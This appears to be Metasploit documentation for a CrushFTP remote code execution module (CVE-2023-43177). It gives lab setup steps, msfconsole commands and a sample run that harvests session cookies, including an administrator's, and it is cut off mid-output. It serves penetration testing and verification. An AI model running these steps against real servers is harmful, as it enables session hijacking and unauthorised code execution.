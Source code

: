 This module can be tested with only an administrator logged into the application. To test the privilege escalation attack, a non-administrator user needs to be set up.

- Click on `Admin` and `User Management`.
- Click the `+ Add` button to create a new user (provide a username and a password).
- With this new user selected, in the `User Settings` pane, select a location in the server file system that will be the root directory for this user. You can create a new folder by clicking the first button on the left hand side. Go ahead and create multiple subdirectories also.
- Drag & drop the root folder from the left pane to the right pane and navigate to a folder you want to be writable. The root folder and its subfolders are read-only by default. Once you pick one folder, select the `Upload` and `Delete` permissions on the right hand side.
- Click `Save`.


## Verification Steps

1. Start msfconsole
1. Do: `use multi/http/crushftp_rce_cve_2023_43177`
1. Do: `set target <target>`
1. Do: `set payload <payload>`
1. Do: `run rhosts=<target address>`


You will need to have an active user's session on the server. For this, you can log into the application with an administrator account or with a non-privileged user. The latter will trigger the privilege escalation routine.
Since the module needs to download the cache session file one or two times, depending on if privilege escalation is required, this can take up to 20 minutes to get remote code execution. So, make sure the user that is authenticated has not logged out or the session timed out until the exploit finishes.


## Options

### SESSION_FILE_DELAY
The delay in seconds between attempts to download the session file (default 30).


## Scenarios

### Target 0 (Java) against CrushFTP version 10.5.0_3 on Windows

#### With an active administrator session
```
msf exploit(multi/http/crushftp_rce_cve_2023_43177) > exploit rhosts=192.168.101.54 verbose=true

[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking CrushFTP Server
[*] Getting a new anonymous session
[*] Anonymous session cookie: 1711129530820_ogdYwds2NKkSxZoAGigNyNLtyFrphL
[*] Checking if the attack primitive works
[*] Logging out session cookie `1711129530820_ogdYwds2NKkSxZoAGigNyNLtyFrphL`
[+] The target appears to be vulnerable.
[*] Downloading the session file
[*] Getting a new anonymous session
[*] Anonymous session cookie: 1711129532554_mudHsRJWeg1AH7x0PyZzux9uffDBOr
[*] Getting session file at `WebInterface/Resources/libs/jq-3.6.0_9bce0d5c08-js/`
[+] Session file downloaded
[*] Logging out session cookie `1711129532554_mudHsRJWeg1AH7x0PyZzux9uffDBOr`
[*] Looking for the valid sessions
[*] Found 4 session cookies in the session file
[*] Cookie `1711129187087_HwakJiMBcOOnUrEbe6hgbTuwqH7UVZ` is valid session (username: crushadmin)
[*] Cookie `1711115282718_bh0KMR52mszSUEnVJT7u699mcIIlf3` is not valid
```